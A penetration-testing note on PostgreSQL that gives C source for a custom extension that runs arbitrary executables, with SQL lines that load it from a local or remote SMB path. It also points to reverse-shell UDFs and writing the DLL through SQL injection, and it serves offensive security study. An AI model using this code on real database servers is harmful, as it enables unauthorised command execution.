 ```yaml
---
Ports: 5432/5433
Description: PostgreSQL, also known as Postgres, is a free and open-source relational database management system emphasizing extensibility and SQL compliance.
---
```


>[!info]
> PostgreSQL, also known as Postgres, is a free and open-source relational database management system emphasizing extensibility and SQL compliance.


# Basic Usage

## pgAdmin

[pgAdmin](https://www.pgadmin.org/) is the most popular and feature rich Open Source administration and development platform for PostgreSQL, the most advanced Open Source database in the world.

![](../../zzz_res/attachments/pgAdmin.png)

---

# Exploitation

## [SQL Injection](../Web%20&%20Network%20Hacking/SQL%20Injection.md)

## Build a custom PostgreSQL extension

Microsoft Visual Studio code:
```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif
/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(awae);
/* this function launches the executable passed in as the first parameter in a FOR loop bound by the second parameter that is also passed*/
Datum
awae(PG_FUNCTION_ARGS)
{
	/* convert text pointer to C string */
	#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout,
	PointerGetDatum(textp)))
	/* retrieve the second argument that is passed to the function (an integer) that will serve as our counter limit*/
	int instances = PG_GETARG_INT32(1);
	for (int c = 0; c < instances; c++) {
	/*launch the process passed in the first parameter*/
	ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
}
PG_RETURN_VOID();
}

// Test is on PostgreSQL
// create or replace function local(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
// create or replace function remote(text, integer) returns void as $$\\192.168.119.120\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
// SELECT local($$calc.exe$$, 3);
// DROP FUNCTION local(text, integer);
// > del c:\awae.dll
```

>[!tip] Tip and tricks
>- Reverse shell extension code can be found in [UDF Postgres](../Web%20&%20Network%20Hacking/Reverse%20Shell%20Cheatsheet.md#UDF%20Postgres) 
>- If you can't download the DLL from anywhere and you need to directly create it using the SQL Injection, use PostgreSQL [Large Objects](https://www.postgresql.org/docs/9.2/largeobjects.html) mentioned in [Reading & Writing files](../Web%20&%20Network%20Hacking/SQL%20Injection.md#Reading%20&%20Writing%20files)



---

# Misc

## Enable database logging (for researching SQL Injection vuln.)

```
$ edit postgresql.conf
...
log_statement = 'all' # none, ddl, mod, all
...
```

>Remember to restart the service. 

Log files for failed query can be found inside `pgsql_log\` 